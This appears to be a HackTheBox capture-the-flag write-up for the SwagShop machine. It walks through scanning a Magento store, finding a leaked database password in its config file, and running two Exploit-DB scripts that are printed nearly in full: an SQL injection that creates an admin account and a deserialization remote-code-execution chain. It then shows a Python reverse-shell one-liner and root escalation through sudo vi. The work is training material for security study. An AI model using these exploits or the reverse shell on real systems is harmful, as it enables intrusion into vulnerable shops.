



# HTB SWAGSHOP (10.10.10.140) MACHINE WRITE-UP

## PART 1 : INITITAL RECON

```console
$ nmap --min-rate 700 -p- -v 10.10.10.140
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http
```
```console
$ nmap -p 22,80 -sC -sV -v 10.10.10.140
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
  |   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
  |_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-favicon: Unknown favicon MD5: 88733EE53676A47FC354A61C32516E82
  | http-methods: 
  |_  Supported Methods: GET HEAD POST OPTIONS
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Home page
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## PART 2 : PORT ENUMERATION

### PORT 80

- __`http://10.10.10.140/`__:

  

  > There is a [`Magento`]() service running on __*port 80*__.

  > Trying to register an account in `http://10.10.10.140/` brings you to __`http://10.10.10.140/index.php/customer/account/create/`__ and if you'll notice, __`/index.php`__ is not only an endpoint but also serves as a directory.

- __*Wappalyzer*__ (Firefox plugin):
  
  eCommerce | Programming Language | Database | Web Server | Operating System
  --- | --- | --- | --- | ---
  Magento | PHP | MySQL | Apache 2.14.18 | Ubuntu

- __`gobuster`__ on __`/`__:

  ```console
  $ gobuster dir -u http://10.10.10.140 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
    /media (Status: 301)
    /includes (Status: 301)
    /lib (Status: 301)
    /app (Status: 301)
    /js (Status: 301)
    /shell (Status: 301)
    /skin (Status: 301)
    /var (Status: 301)
    /errors (Status: 301)
  ```

- __`http://10.10.10.140/app/etc/local.xml`__:
  
  ```xml
  <install>
    <date>Wed, 08 May 2019 07:23:09 +0000</date>
  </install>
  <crypt>
    <key>b355a9e0cd018d3f7f03607141518419</key>
  </crypt>
  <disable_local_modules>false</disable_local_modules>
  <resources>
    <db><table_prefix></table_prefix></db>
    <default_setup>
      <connection>
        <host>localhost</host>
        <username>root</username>
        <password>fMVWh7bDHpgZkyfqQXreTjU9</password>
        <dbname>swagshop</dbname>
        <initStatements>SET NAMES utf8</initStatements>
        <model>mysql4</model>
        <type>pdo_mysql</type>
        <pdoType></pdoType>
        <active>1</active>
      </connection>
    </default_setup>
  </resources>
  ```
  > There is a Magento config file on __`http://10.10.10.140/app/etc/local.xml`__.

- __`gobuster`__ on __`/index.php`__:
  ```console
  $ gobuster dir -u http://10.10.10.140/index.php -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
    /home (Status: 200)
    /0 (Status: 200)
    /contacts (Status: 200)
    /catalog (Status: 302)
    /admin (Status: 200)
    /Home (Status: 200)
    /core (Status: 200)
    /install (Status: 302)
    /cms (Status: 200)
    /api (Status: 200)
    /checkout (Status: 302)
    /wishlist (Status: 302)
  ```

- __`http://10.10.10.140/index.php/admin`__:

  

  > There is a login page to access the __*Admin Panel*__

---

## PART 3 : EXPLOITATION

1. __`searchsploit`__:

   ```console
   $ searchsploit magento
     --------------------------------------------------------------------------------------------------------- ----------------------------------------
      Exploit Title                                                                                           |  Path
                                                                                                              | (/usr/share/exploitdb/)
     -------------------------------------------------------------------------------------------------------------------------------------------------
     Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login['Username']' Cross-Site Scripting       | exploits/php/webapps/32808.txt
     Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexController.php?email' Cross-Site Scripting | exploits/php/webapps/32809.txt
     Magento 1.2 - 'downloader/index.php' Cross-Site Scripting                                                | exploits/php/webapps/32810.txt
     Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File                                           | exploits/php/webapps/39838.php
     Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                                             | exploits/php/webapps/37811.py
     Magento Server MAGMI Plugin - Multiple Vulnerabilities                                                   | exploits/php/webapps/35996.txt
     Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                                              | exploits/php/webapps/35052.txt
     Magento eCommerce - Local File Disclosure                                                                | exploits/php/webapps/19793.txt
     Magento eCommerce - Remote Code Execution                                                                | exploits/xml/webapps/37977.py
     eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection                                             | exploits/php/webapps/38573.txt
     eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Execution / Denial of Service)                  | exploits/php/webapps/38651.txt
     --------------------------------------------------------------------------------------------------------- ----------------------------------------
   ```
   > Since this box is rated with a __`9/10`__ for CVE by the box creator, this should be a step in the right direction

   > __`exploits/php/webapps/37811.py`__ and __`exploits/xml/webapps/37977.py`__ might be of interest due to their high severity.

   >> __`exploits/xml/webapps/37977.py`__ creates an admin account with credentials, __`forme : forme`__, if the Magento service running is vulnerable.

   >> __`exploits/php/webapps/37811.py`__ is an authenticated remote code execution exploit.

   > The two exploits mentioned above seem to go hand in hand with each other.
	
2. Create an admin account using __`37811.py`__:
   1. Download the exploit:
      ```console
      $ searchsploit -m exploits/xml/webapps/37977.py
          Exploit: Magento eCommerce - Remote Code Execution
              URL: https://www.exploit-db.com/exploits/37977
             Path: /usr/share/exploitdb/exploits/xml/webapps/37977.py
        File Type: ASCII text, with CRLF line terminators
        
        Copied to: /root/Desktop/htb_boxes/SwagShop/exploits/37977.py
      ```
   2. Inspect the exploit:
      ```py
      # ...omitted...
      import requests
      import base64
      import sys
      
      target = "http://target.com/"
      
      if not target.startswith("http"):
          target = "http://" + target
      
      if target.endswith("/"):
          target = target[:-1]
      
      target_url = target + "/admin/Cms_Wysiwyg/directive/index/"
      
      q="""
      SET @SALT = 'rp';
      SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
      SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
      INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
      INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
      """
      
      
      query = q.replace("\n", "").format(username="forme", password="forme")
      pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)
      
      # e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
      r = requests.post(target_url, 
                        data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                              "filter": base64.b64encode(pfilter),
                              "forwarded": 1})
      if r.ok:
          print "WORKED"
          print "Check {0}/admin with creds forme:forme".format(target)
      else:
          print "DID NOT WORK"
      # ...omitted...
      ```
   3. Tweak the exploit:
      ```py
      # [CHANGE]
      target = "http://target.com/"

      # [TO]
      target = "http://10.10.10.140/index.php/"
      ```
   4. Run the exploit:
      ```console
      $ python 37977.py
        WORKED
        Check http://10.10.10.140/index.php/admin with creds forme:forme
      ```

3. Login using the created credentials on __`http://10.10.10.140/index.php/admin`__:
   
   

4. Attempt Remote Code Execution using __`37811.py`__:
   1. Download the exploit:
      ```console
      $ searchsploit -m exploits/php/webapps/37811.py
          Exploit: Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
              URL: https://www.exploit-db.com/exploits/37811
             Path: /usr/share/exploitdb/exploits/php/webapps/37811.py
        File Type: Python script, ASCII text executable, with CRLF line terminators
        
        Copied to: /root/Desktop/htb_boxes/SwagShop/exploits/37811.py
      ```
   2. Inspect the exploit:
      ```py
      # ...omitted...
      from hashlib import md5
      import sys
      import re
      import base64
      import mechanize
      
      
      def usage():
          print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
          sys.exit()
      
      
      if len(sys.argv) != 3:
          usage()
      
      # Command-line args
      target = sys.argv[1]
      arg = sys.argv[2]
      
      # Config.
      username = ''
      password = ''
      php_function = 'system'  # Note: we can only pass 1 argument to the function
      install_date = 'Sat, 15 Nov 2014 20:27:57 +0000'  # This needs to be the exact date from /app/etc/local.xml
      
      # POP chain to pivot into call_user_exec
      payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
                '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
                'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
                'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
                '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
                ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                           len(arg), arg)
      # Setup the mechanize browser and options
      br = mechanize.Browser()
      #br.set_proxies({"http": "localhost:8080"})
      br.set_handle_robots(False)
      
      request = br.open(target)
      
      br.select_form(nr=0)
      br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
      br.form.fixup()
      br['login[username]'] = username
      br['login[password]'] = password
      
      br.method = "POST"
      request = br.submit()
      content = request.read()
      
      url = re.search("ajaxBlockUrl = \'(.*)\'", content)
      url = url.group(1)
      key = re.search("var FORM_KEY = '(.*)'", content)
      key = key.group(1)
      
      request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
      tunnel = re.search("src=\"(.*)\?ga=", request.read())
      tunnel = tunnel.group(1)
      
      payload = base64.b64encode(payload)
      gh = md5(payload + install_date).hexdigest()
      
      exploit = tunnel + '?ga=' + payload + '&h=' + gh
      
      try:
          request = br.open(exploit)
      except (mechanize.HTTPError, mechanize.URLError) as e:
          print e.read()
      ```
   3. Tweak the exploit:
      ```py
      # [CHANGE]
      username = ''
      password = ''
      # ...
      install_date = 'Sat, 15 Nov 2014 20:27:57 +0000'
      # ...
      request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)

      [TO]
      username = 'forme'
      password = 'forme'
      # ...
      install_date = 'Wed, 08 May 2019 07:23:09 +0000'
      # ...
      request = br.open(url + 'block/tab_orders/period/1y/?isAjax=true', data='isAjax=false&form_key=' + key)
      ```
      > The __`install_date`__ could be found on the Magento config (__`/app/etc/local.xml`__) found earlier.
      
      > It was reuired to change __`.../7d/...`__ to __`.../1y/...`__ since the exploit's query should return a value in order to work and there were no recorded transactions in the Magento service in the past 7 days; however, there were transactions within the year since the box was released and this write-up was posted.
    
      >> Valid options are __`24h`__, __`7d`__, __`1m`__, __`1y`__, and __`2y`__.

   4. Run the exploit:
      ```console
      $ python 37811.py http://10.10.10.140/index.php/admin "id"
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
      ```

---

## PART 4 : GENERATE A SHELL

1. Set-up a listener:
   ```console
   $ nc -lvp 4444
     listening on [any] 4444 ...
   ```
2. Run a __python__ reverse shell using __`37811.py`__:
   ```console
   $ ifconfig
     tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
             inet 10.10.14.16  netmask 255.255.254.0  destination 10.10.14.16
             ...omitted...                
   $ python 37811.py http://10.10.10.140/index.php/admin "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.16\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
   ```
   > There seems to be no __`python2`__ inside the box but at least, there is __`python3`__.

3. Going back to the listener:
   ```console
     10.10.10.140: inverse host lookup failed: Unknown host
     connect to [10.10.14.16] from (UNKNOWN) [10.10.10.140] 40060
     /bin/sh: 0: can't access tty; job control turned off

   $ uname -nopr
     swagshop 4.4.0-146-generic x86_64 GNU/Linux

   $ id 
     uid=33(www-data) gid=33(www-data) groups=33(www-data)

   $ python -h
     /bin/sh: 9: python: not found
   ```

---

## PART 5 : PRIVILEGE ESCALATION (www-data -> root)

1. Check for commands that could be executed with __`sudo`__:
   ```console
   $ sudo -l
     Matching Defaults entries for www-data on swagshop:
         env_reset, mail_badpass,
         secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
     
     User www-data may run the following commands on swagshop:
         (root) NOPASSWD: /usr/bin/vi /var/www/html/*
   ```

2. Run __`python3`__'s __pty__ module:
   ```console
   $ python3 -c 'import pty; pty.spawn("/bin/bash")'
   ```

3. Run __`/usr/bin/vi`__ using __`sudo`__:
   ```console
   $ sudo /usr/bin/vi /var/www/html/ggwp
   ```

4. Execute commands while inside vim:
   ```console
   ~
   ~
   ~
   ~ 
   ~
   ~
   ~
   ~
   :!/bin/bash
   ```

5. Now having a __root__ shell:
   ```console
   $ cat /home/*/user.txt
     a448877277e82f05e5ddf9f90aefbac8

   $ cat /root/root.txt
     c2b087d66e14a652a3b86a130ac56721

        ___ ___
      /| |/|\| |\
     /_| ´ |.` |_\           We are open! (Almost)
       |   |.  |
       |   |.  |         Join the beta HTB Swag Store!
       |___|.__|       https://hackthebox.store/password
     
                        PS: Use root flag as password!
   ```
